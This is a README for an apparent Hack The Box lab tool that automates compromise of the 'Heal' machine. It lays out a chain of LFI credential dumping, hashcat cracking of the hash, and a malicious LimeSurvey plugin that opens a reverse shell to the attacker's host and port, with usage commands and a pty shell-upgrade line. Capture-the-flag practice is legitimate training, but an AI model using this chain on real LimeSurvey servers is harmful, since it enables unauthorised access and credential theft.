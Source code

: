 # Heal HTB AutoPwn – Autopwn Script

A full exploitation automation script for the **Heal** Linux machine on Hack The Box. Full write Up -> [WriteUp.md](https://github.com/maikneysm/AutoPwn-Heal.htb/blob/main/WriteUp.md)
## 📋 Description

This tool automates the following:
- Dumping LimeSurvey credentials via LFI
- Cracking the password hash manually (Hashcat/rockyou)
- Deploying a malicious LimeSurvey plugin to trigger a reverse shell
    

---
## 🧠 Requirements

- Python 3.8+
- `requests`
- `bs4`
Install dependencies with:

```bash
pip install requests beautifulsoup4
```

---
## ⚙️ Usage

### Phase 1: Dump and Crack Credentials

```bash
python3 autopwn.py --type getCredentials
```

This will:
- Log in to thevulnerable API
- Dump the SQLite file via LFI
- Extract the email and password hash
- Print the hash with a note like:
    

```
Crack this hash using `hashcat` or a wordlist like `rockyou.txt`
Once cracked, proceed to the next phase with --type getRevShellSlime
```

You can crack it like this:

```bash
hashcat -m 3200 hash.txt /usr/share/wordlists/rockyou.txt
```

---

### Phase 2: Deploy Reverse Shell via LimeSurvey Plugin
```bash
python3 autopwn.py \
  --type getRevShellSlime \
  --lhost <YOUR-IP> \
  --lport <YOUR-PORT> \
  --adminuser ralph@heal.htb \
  --adminpass <CRACKED-PASSWORD>
```

This will:

1. Generate a malicious LimeSurvey plugin (`pwned.zip`)
2. Log in to the LimeSurvey admin panel
3. Upload and install the plugin
4. Trigger the reverse shell
5. Automatically start a listener and spawn a `/bin/bash` shell
    

---

## 💡 Notes

- The tool checks if the plugin is already uploaded before re-uploading it.
- You can kill the listener cleanly with `Ctrl+C`.
- The script handles CSRF token parsing and redirections automatically.
- If the reverse shell behaves oddly, you can stabilize it inside the shell with:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
